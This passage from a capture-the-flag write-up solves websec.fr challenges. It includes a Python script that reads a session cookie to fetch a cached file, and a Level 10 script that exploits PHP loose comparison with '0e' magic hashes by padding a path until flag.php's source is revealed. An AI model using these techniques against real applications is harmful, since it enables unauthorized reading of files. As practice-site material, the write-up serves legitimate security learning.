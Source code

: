 ```python
cookies = r.headers['Set-Cookie']
file_loc = re.search(r'session_id=([a-zA-Z0-9]+)', cookies).group(1)
flag_data = {
	'cache_file':'/tmp/{}'.format(file_loc)
}

r = s.get(url, params= flag_data)
print(r.text)
```

## Level 10
Loose comparison:

```php
$hash = substr (md5 ($flag . $file . $flag), 0, 8);
// truncated //
if ($request == $hash) {
	show_source($file);
}
```

The `md5` hash is constant, and we need to somehow make it start with `0e` and do integer comparison. 

The `$file` parameter is taken from our input, and used to calculate hash. In order to add to `$flag` while pointing to the same file, use `.//////` 

```python
import requests

url = 'https://websec.fr/level10/index.php'
pre = '.'
file = 'flag.php'
data = {
	'f': pre + file,
	'hash':'0e111111'
}
headers={'Content-Type':'application/x-www-form-urlencoded'}

while True:
	r = requests.post(url, data=data, headers=headers)
	if 'WEBSEC' in r.text:
		print(r.text)
		break
	pre += '/'
	# print(pre+file)
```

Eventually, the flag will come out because the hash keeps changing each time. This is the fastest method since I cannot pre-calculate the hash via `$flag` variable.

`WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}`

## Level 11

